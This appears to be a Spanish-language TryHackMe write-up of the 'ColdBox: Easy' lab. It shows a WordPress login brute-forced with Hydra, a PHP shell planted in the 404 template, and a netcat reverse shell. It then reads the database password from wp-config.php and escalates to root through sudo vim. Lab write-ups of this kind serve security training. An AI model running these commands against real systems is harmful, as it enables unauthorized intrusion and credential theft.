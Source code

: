 ```yaml
---
title: "ColdBox: Easy"
date: 2024-03-27 16:00 +/-0000
categories: TryHackMe Máquina
tags:
  - tryhackme
  - easy
  - wordpress
author: okud4
toc: true
img_path: /assets/img/
image: /banners/Cold-Box.png
---
```



Empezamos escaneando la direccion ip de la máquina con nmap, pero antes de nada en la web [Station X](https://www.stationx.net/nmap-cheat-sheet/) tenemos una buena herramienta para personalizar el tipo de escaneo que deseamos realizar.

Usare un comando para que detecte todos los puertos abiertos, detecte el sistema operativo.

```bash
sudo nmap -p- -O -A -T4 -vvv <ip>

PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

Obtengo como resultado que en el puerto 80 corre un servidor Wordpress desactualizado y en el puerto 4512 se podria acceder mediante SSH. Lo mas facil en este caso es centrar el ataque en Wordpres.

Usando `dirb http://<ip>` me listará todos los directorios disponibles. Como resultado obtengo el directorio `/hidden/` y al acceder a dicho directorio obtengo una página web. Compruebo su código y obtengo un dato interesante:

```html5
<h2>[EDITADO], you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip</h2>
```

Compruebo que el usuario es válido, para hacerlo lo hago directamente en el login, si el usuario no existe, el propio login de Wordpress lo notifica:

![login](capturas/coldbox/userlogin.png)

Usaré Hydra para obtener acceso al blog.

```bash
hydra -l [USUARIO] -P /usr/share/wordlists/rockyou.txt 10.10.117.11 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.117.11%2Fwp-admin%2F&testcookie=1:S=Location" 
```

Y obtenemos el password para dicho usuario:

```bash
[80][http-post-form] host: 10.10.117.11   login: [USUARIO]   password: [PASSWORD]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-27 18:02:36
```

Ahora que tengo acceso al Wordpress, subo una shell para poder explotar el servidor. En mi caso, editaré la página 404.php y aqui incluiré una shell en php. Existe un plugin para navegador que me facilita el trabajo, se llama **_HackerTools_**. 

![template wordpress](capturas/coldbox/template.png)

Ahora para poder acceder al shell, en la terminal escribo el comand para conectarme por netcat y, para que esto funcione, en el navegador debo conseguir un error 404 (por ejemplo, con una url inexistente)

```bash
~ ❯ nc -lvnp 4455       
listening on [any] 4455 ...
connect to [10.9.206.239] from (UNKNOWN) [10.10.117.11] 50862
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:25:08 up  1:18,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya estoy dentro, asi que ahora mejoro la terminal para poder trabajar con ella. El siguiente paso es ejecutar un comando que me permita localizar los archivos .txt 

```bash
www-data@ColddBox-Easy:/$ find / -type f -name '*.txt' 2>/dev/null
```

Tras localizar las posibles flags, para leer el contenido necesito ingresar como superusuario.

Para ello, primero obtengo el password que se encuentra alojado en la base de datos y la utilizo para logearme con el usuario y así obtener el flag oculto en el archivo user.txt.

```bash
www-data@ColddBox-Easy:/$ cd var/www/html/
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php | grep "DB_PASSWORD"
define('DB_PASSWORD', '[*]');
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: 
c0ldd@ColddBox-Easy:/var/www/html$ cd
c0ldd@ColddBox-Easy:~$ ls
user.txt
c0ldd@ColddBox-Easy:~$ cat user.txt 

```

Ahora, necesito ser usuario root. Ejecuto el comando `sudo -l` para obtener los binarios a los que poder atacar.

```bash
c0ldd@ColddBox-Easy:/$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:/$ sudo vim
```

Ejecuto **_Vim_** como superusuario y dentro escribo 

```vim
:!bin/bash
```

y obtengo el ultimo flag:

```bash
root@ColddBox-Easy:/# cat /root/root.txt 
```


